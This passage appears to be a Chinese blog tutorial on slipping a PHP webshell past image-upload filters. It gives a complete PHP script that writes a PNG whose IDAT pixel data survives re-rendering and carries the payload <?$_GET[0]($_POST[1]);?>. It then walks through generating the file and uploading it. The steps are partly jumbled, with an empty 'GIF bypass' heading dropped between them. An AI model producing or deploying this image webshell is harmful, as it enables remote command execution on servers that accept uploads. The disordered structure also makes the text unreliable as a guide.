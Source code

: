 <h4>利用过程：</h4>
**使用php脚本写入在IDTA中**
**第一步：创建IDAT_png.php脚本（生成一个绕过渲染的图片马）：**
运行脚本即可生成&lt;?$_GET[0]($_POST[1]);?&gt;
使用方式：get传参0=   post传参1=
<pre><code>&lt;?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y &lt; sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?&gt;</code></pre>


**第二步：使用php命令执行php脚本文件**
执行命令（没报错就是成功了）
<blockquote>
php IDAT_png.php 2.png


#### GIF绕过：

---


#### 利用过程：

（要进入到文件夹里执行）

可能遇见的问题：

[【非命令】【环境变量配置】php : 无法将“.\php”项识别为 cmdlet、函数、脚本文件或可运行程序的名称。‘php‘ 不是内部或外部命令，也不是可运行的程序或批处理文件。https://blog.csdn.net/qq_53079406/article/details/123462859?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/123462859?spm=1001.2014.3001.5501)

然后可以看到生成了一个php脚本里面运行出来的1.png文件

**第三步：上传生成的1.png文件**

（主要先懂原理）找一个能上传的

 上传成功了<img alt="" height="517" src="https://img-blog.csdnimg.cn/aee721862e444d089e23e63f069ce150.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6buR6Imy5Zyw5bimKOW0m-i1tyk=,size_18,color_FFFFFF,t_70,g_se,x_16" width="737"/>
